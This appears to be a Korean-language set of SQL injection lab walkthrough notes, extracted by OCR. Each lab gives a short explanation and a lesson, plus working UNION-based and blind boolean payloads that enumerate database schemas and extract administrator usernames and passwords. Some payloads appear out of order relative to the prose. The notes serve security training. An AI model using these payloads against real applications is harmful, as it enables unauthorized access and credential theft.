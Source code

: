   * Pets' UNION SELECT @@version, 'x'-- 

  * Lab: 비-Oracle DB 내용 조회 – 제품 필터 SQLi를 이용해, 비-Oracle(MySQL/PostgreSQL/MS SQL 등) 환경의 테이블 정보를 수집합니다. 단계적으로 진행합니다. 먼저 information_schema.tables를 조회하여 테이블 명을 찾습니다:여러 테이블 중 users_XXXXX 같은 사용자 테이블을 식별합니다. 이어서 해당 테이블의 컬럼을 information_schema.columns에서 찾습니다:마지막으로 테이블에서 실제 데이터를 조회합니다:이렇게 관리자 계정과 비밀번호를 획득하여 로그인합니다. 교훈: 정보 스키마 접근으로 메타데이터를 열람해 테이블/컬럼을 찾아내고, UNION을 통해 원하는 데이터를 획득하는 방법을 익힙니다. 

  * Pets' UNION SELECT username, password FROM users_xyz-- 

Pets' UNION SELECT column_name, 'x' FROM information_schema.columns WHERE table_name='users_xyz'-- 

Pets' UNION SELECT table_name, 'x' FROM information_schema.tables-

  * Lab: Oracle DB 내용 조회 – 비-Oracle 실습과 마찬가지로 메타데이터 조회를 수행합니다. Oracle에서는 ALL_TABLES, ALL_TAB_COLUMNS 뷰를 사용합니다. 예를 들어 모든 테이블 목록을 보기 위해:특정 테이블(USERS_TQNENL)이 확인되면, 해당 테이블의 컬럼을 조회합니다:최종적으로 그 테이블에서 사용자명과 비밀번호를 가져옵니다:결과로 관리자 자격증명이 출력되어 로그인할 수 있습니다. 교훈: Oracle용 메타데이터 뷰(ALL_TABLES, ALL_TAB_COLUMNS) 사용법과 UNION 쿼리 작성 시 NULL로 컬럼을 맞춰야 한다는 점을 배웁니다. 

Gifts' UNION SELECT USERNAME_ENDVJL, PASSWORD_PTICBH FROM USERS_TQNENL-- 

Gifts' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_TQNENL'-- 

Gifts' UNION SELECT table_name, NULL FROM all_tables-- 

  * Lab: UNION 컬럼 개수 파악 – UNION SQLi 공격을 위해 원본 쿼리의 컬럼 수를 알아내는 실습입니다. 일반적인 방법으로 ORDER BY절을 사용하거나, UNION SELECT NULL-- 뒤에 NULL의 수를 늘리면서 에러가 발생하지 않는 개수를 찾습니다. 예:에러가 사라지는 시점의 NULL 개수가 쿼리 컬럼 수와 일치합니다. 교훈: UNION 쿼리에서 성공하려면 컬럼 수와 데이터 타입이 정확히 일치해야 함을 확인합니다. 

Gifts' UNION SELECT NULL-- (컬럼1) Gifts' UNION SELECT NULL,NULL-- (컬럼2) Gifts' UNION SELECT NULL,NULL,NULL-- ... 

  * Lab: 문자열 컬럼 찾기 – UNION 공격에서 데이터(문자열)를 표시할 수 있는 컬럼을 찾는 실습입니다. 컬럼 수를 알아낸 뒤, 각 컬럼 자리에 문자열을 넣어 실험합니다. 예를 들어 컬럼이 3개라면:위와 같이 문자열 'a'를 차례로 넣어보면 어느 컬럼에 제대로 출력되는지 알 수 있습니다. 이로써 문자열을 담을 수 있는 컬럼 위치를 파악할 수 있습니다. 교훈: 데이터 타입에 맞게 문자열이나 숫자를 각 컬럼에 넣어보며 적절한 컬럼을 찾아야 UNION 공격이 가능함을 익힙니다. 

Gifts' UNION SELECT 'a', NULL, NULL-- Gifts' UNION SELECT NULL, 'a', NULL-- Gifts' UNION SELECT NULL, NULL, 'a'-- 

  * Lab: 다른 테이블 데이터 획득 (기본 UNION) – UNION 공격으로 다른 테이블의 데이터를 반환하는 예시 실습입니다. 예를 들어 제품 목록에 사용자 테이블 데이터를 결합해봅니다:실행 후 사용자명·비밀번호가 반환되고 이를 이용해 관리자 로그인까지 할 수 있습니다. 교훈: UNION으로 다양한 테이블을 결합해 필요한 데이터를 추출할 수 있음을 확인합니다. 

Gifts' UNION SELECT username, password FROM users-- 

  * Lab: 한 컬럼에서 여러 값 획득 – 문자열 연결(concatenation)을 활용해 한 컬럼으로 여러 값을 묶어 반환합니다. 이 실습에서는 users 테이블에 username과 password 컬럼이 있고, 컬럼 수를 맞추기 위해 나머지 컬럼은 NULL을 사용합니다. 또한 두 값을 합쳐 반환해야 하기 때문에 문자열 연결 연산자를 사용합니다. 예: Oracle의 경우와 같이 입력하면 username<\-->password 형태로 출력됩니다. 최종적으로 administrator<\-->비밀번호를 얻어 관리자 계정으로 로그인합니다. 교훈: 두 컬럼을 한 번에 가져올 때는 문자열을 이어 붙여 하나의 컬럼으로 표현할 수 있으며, Oracle(||)과 MSSQL(+)의 연결 연산자를 적절히 사용해야 함을 학습합니다. 

Pets' UNION SELECT NULL, username||'<\-->'||password FROM users-- 

  * Lab: 블라인드 SQLi – 조건부 응답 – 애플리케이션이 쿠키(TrackingId) 값을 사용하며, 쿼리 결과가 있으면 응답에 “Welcome back” 메시지를 보냅니다. 결과를 직접 보여주진 않지만 응답 내용을 통해 참/거짓을 알 수 있습니다. 예를 들어 패스워드 첫 글자를 알아내려면:로 요청을 보내고, “Welcome back” 여부를 확인합니다. 참이면 첫 글자가 a라는 뜻입니다. 이 과정을 반복하여 전체 암호를 추출한 뒤 로그인합니다. 교훈: 쿼리 결과나 오류가 노출되지 않아도 조건에 따라 응답이 달라지면 이를 이용해 한 글자씩 데이터를 추출할 수 있습니다. 

Cookie: TrackingId=xyz' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a 
